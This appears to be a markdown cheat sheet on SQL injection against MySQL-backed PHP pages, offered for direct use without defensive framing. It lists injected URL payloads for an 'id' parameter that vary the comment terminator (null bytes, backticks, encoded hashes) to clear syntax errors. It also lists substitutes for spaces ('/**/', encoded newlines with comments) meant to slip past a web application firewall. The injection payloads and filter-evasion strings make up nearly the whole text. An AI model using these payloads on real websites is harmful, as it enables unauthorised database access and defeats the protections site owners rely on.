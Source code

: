 ## Stabilise the error message
Whenever the website keeps showing up erros on MySQL syntax, it is required to enter queries to fix the error. This usually happens when server doesn't accept ```-- -``` inside the queries. 

```http://domain.com/index.php?id=1' order by 1;%00-- -```   no error  
```http://domain.com/index.php?id=1' order by 1;%60-- - ```  no error  
```http://domain.com/index.php?id=1' order by 1%23-- - ```  no error  
```http://domain.com/index.php?id=1' order by 1%60-- - ```  no error  
```http://domain.com/index.php?id=1'%23/* order by 1-- - ```  no error  
```http://domain.com/index.php?id=1') order by 1-- - ```  no error  

If MySQL Syntax Error still persists, simply try again the payloads, but this time, without ```-- -```


## Whitespace WAF-based bypass

Whenever the WAF blocks the query to include space/whitespace, you can easy replace with the following payloads:  

```
/**/
/**_**/
%23nuLL%0A
%23qa%0A%23%0A
%23foo*%2F*bar%0D%0A
+
```

For example, you can replace the whitespaces on the following payload:  
```http://domain.com/index.php?id=1' order by 1-- -```  
with  
```http://domain.com/index.php?id=1'/**/order/**/by/**/1--/**/-```  
or with  
```http://domain.com/index.php?id=1'%23nuLL%0Aorder%23nuLL%0Aby%23nuLL%0A1--%23nuLL%0A-```  
and so on...
